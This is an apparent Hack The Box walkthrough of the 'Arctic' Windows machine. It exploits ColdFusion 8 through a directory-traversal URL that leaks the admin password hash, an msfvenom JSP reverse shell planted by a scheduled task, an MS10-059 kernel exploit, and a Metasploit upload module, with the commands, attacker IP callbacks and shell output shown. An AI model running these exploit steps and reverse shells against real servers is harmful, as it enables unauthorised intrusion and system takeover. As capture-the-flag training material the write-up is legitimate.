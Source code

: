 ## Default Information
IP Address: 10.10.10.11\
OS: Windows

## Discovery

Before we start, let's first add the IP address and the host to our ```/etc/hosts``` file.

```
10.10.10.11    arctic.htb
```
### Masscan
Firstly, we will use masscan to identify the open ports

```
┌──(kali㉿kali)-[~]
└─$ sudo masscan -p1-65535,U:1-65535 10.10.10.11 --rate=1000 -e tun0
[sudo] password for kali: 
Starting masscan 1.3.2 (http://bit.ly/14GZzcT) at 2022-01-09 00:35:16 GMT
Initiating SYN Stealth Scan
Scanning 1 hosts [131070 ports/host]
Discovered open port 49154/tcp on 10.10.10.11                                  
Discovered open port 135/tcp on 10.10.10.11 
```

### Nmap
We will then use the open ports obtained from masscan to run a scan using nmap to enumerate the services operating behind each port

| Port Number | Service | Version | State |
|-----|------------------|----------------------|----------------------|
| 135	| msrpc | Microsoft Windows RPC | Open |
| 8500	| fmtp? | NIL | Open |
| 49154	| msrpc | Microsoft Windows RPC | Open |

### Web-content discovery

Navigating to http://arctic.htb:8500, we realize that we are able to view a directory listing of the endpoints on the site.

![Directory listing](./Images/dir_listing.png)

Navigating through the directory listing, we are able to find another endpoint http://http://arctic.htb:8500/CFIDE/administrator/, which is the adminstrator interface for ColdFusion 8.

## Exploit
### Directory Traversal in Cold Fusion 8

Looking up the vulnerabilities of Cold Fusion 8, we discover that this version of Cold Fusion is vulnerable to [CVE-2010-2861](https://www.exploit-db.com/exploits/14641).

Using this vulnerability, we can then visit ```http://arctic.htb:8500/CFIDE/administrator/enter.cfm?locale=..\..\..\..\..\..\..\..\ColdFusion8\lib\password.properties%00en```, and we will then be able to obtain the password hash.
![Directory Traversal](./Images/directory_traversal.png)

Looking up the hash using the hash-identifier tool, we are able to recognize that this is posisbly a SHA-1 hash.

```
┌──(kali㉿kali)-[~]
└─$ hash-identifier
--------------------------------------------------
 HASH: 2F635F6D20E3FDE0C53075A84B68FB07DCEC9B03

Possible Hashs:
[+] SHA-1
[+] MySQL5 - SHA-1(SHA-1($pass))
```

Looking up the hash online, we are able to decrypt the hash into its password, which is ```happyday```

Using the password, we are then able to authenticate into http://arctic.htb:8500/CFIDE/administrator/

### Obtaining reverse shell

Firstly, we would need to first get the directory for our ```CFIDE```. To do so, we would need to navigate to Mappings under Server Settings.

![Mappings](./Images/mappings.png)

Next, what we have to do is to create a scheduled task. To do that, we will go to Debugging & Loggin > Scheduled Tasks > Schedule New Task

Afterwards, we will have to generate the jsp payload using msfvenom and start a python web server on the directory.

```
┌──(kali㉿kali)-[~/Desktop/arctic]
└─$ msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.16.8 LPORT=3000 -f raw > shell.jsp   
Payload size: 1496 bytes

┌──(kali㉿kali)-[~/Desktop/arctic]
└─$ python3 -m http.server 2000                 
Serving HTTP on 0.0.0.0 port 2000 (http://0.0.0.0:2000/) ...
```

Next, we will have to schedule the new task (NOTE: Remember to click ```save output to file``` so that we can access it at the /CFIDE endpoint later). 
- Task Name: Any name
- URL : Python web server hosting the jsp reverse shell
- username : username of the adminstrator interface (```admin``` in this case)
- password: Password of the adminstrator interface(```happyday``` in this case)
- File : CFIDE mapping that we have obtained earlier
![Scheduling new task](./Images/new_task.png)

We will then proceed to click on the leftmost button to start the scheduled task. This will then do a GET request to our python webserver to download the shell.jsp file and download it to our C:\ColdFusion8\wwwroot\CFIDE directory which is accessible at http://arctic.htb:8500/CFIDE/

![](./Images/run_task.png)

Lastly we will do a curl request to http://arctic.htb:8500/CFIDE/shell.jsp to spawn the reverse shell.

```
┌──(kali㉿kali)-[~]
└─$ curl http://arctic.htb:8500/CFIDE/shell.jsp
```

### Obtaining user flag
```
C:\Users\tolis\Desktop>type user.txt
type user.txt
<Redacted User Flag>
```

### Privilege Escalation to system adminstrator

Running systeminfo,  we are able to know the OS name and the OS version. Apart from that, we realized that there are no hotfix that are applied yet which means that the server might possibly be vulnerable to many kernel exploits.

```
OS Name:                   Microsoft Windows Server 2008 R2 Standard 
OS Version:                6.1.7600 N/A Build 7600
Hotfix(s):                 N/A
```

From our research, we realize that the machine is vulnerable to MS10-059.  Downloading the executable from [here](https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS10-059), we can then execute the executable to spawn a reverse shell.

```
c:\Users\tolis\Desktop>.\MS10-059.exe 10.10.16.8 3000
```

This will then spawn a reverse shell in our listener.

```
┌──(kali㉿kali)-[~]
└─$ nc -nlvp 3000    
listening on [any] 3000 ...
connect to [10.10.16.8] from (UNKNOWN) [10.10.10.11] 50363
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

c:\Users\tolis\Desktop>whoami
whoami
nt authority\system

c:\Users\tolis\Desktop>
```

### Obtaining root flag
```
C:\Users\Administrator\Desktop>type root.txt
type root.txt
<Redacted root flag>
C:\Users\Administrator\Desktop>
```

## Post-Exploitation
### Generating reverse shell using CVE-2009-2265
Some more googling bring me to CVE-2009-2265, which is an unauthenticated RCE on Cold Fusion 8. 

Using the script from [here](https://www.exploit-db.com/exploits/50057), we can generate a reverse shell by modifying the lport, lhost, rport and rhost variables in the script.

```
┌──(kali㉿kali)-[~]
└─$ nc -nlvp 4000
listening on [any] 4000 ...
connect to [10.10.16.8] from (UNKNOWN) [10.10.10.11] 52054
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\ColdFusion8\runtime\bin>
```

For this vulnerability, we are making use of the ability to upload a JSP script to http://arctic.htb:8500/userfiles/file endpoint. As such, we can create a reverse shell in jsp and upload to the affected endpoint. 

Afterwhich, we just have to browse to the reverse shell payload in order to execute the reverse shell.

![Reverse shell payload](./Images/reverse_shell.png)


## Post-Exploiation
### Reverse shell with Metasploit
Firstly, we can create our reverse shell using Metasploit using the same vulnerability that we have listed in the writeup above. In the case where the upload fails, try to set the HTTPCLIENTTIMEOUT to a greater value as this server is quite slow and it generally takes some time for the server to respond. 

```
msf6 > use exploit/windows/http/coldfusion_fckeditor
[*] No payload configured, defaulting to generic/shell_reverse_tcp
msf6 exploit(windows/http/coldfusion_fckeditor) > set RHOSTS 10.10.10.11
RHOSTS => 10.10.10.11
msf6 exploit(windows/http/coldfusion_fckeditor) > set RPORT 8500
RPORT => 8500
msf6 exploit(windows/http/coldfusion_fckeditor) > set PAYLOAD java/jsp_shell_reverse_tcp
PAYLOAD => java/jsp_shell_reverse_tcp
msf6 exploit(windows/http/coldfusion_fckeditor) > set LHOST 10.10.16.8
LHOST => 10.10.16.8
msf6 exploit(windows/http/coldfusion_fckeditor) > set LPORT 4000
LPORT => 4000
msf6 exploit(windows/http/coldfusion_fckeditor) > set HTTPCLIENTTIMEOUT 300
HTTPCLIENTTIMEOUT => 300.0
msf6 exploit(windows/http/coldfusion_fckeditor) > exploit
[*] Started reverse TCP handler on 10.10.16.8:4000 
[*] Sending our POST request...
[*] Upload succeeded! Executing payload...
[*] Command shell session 1 opened (10.10.16.8:4000 -> 10.10.10.11:50400) at 2022-01-09 06:16:30 -0500
```
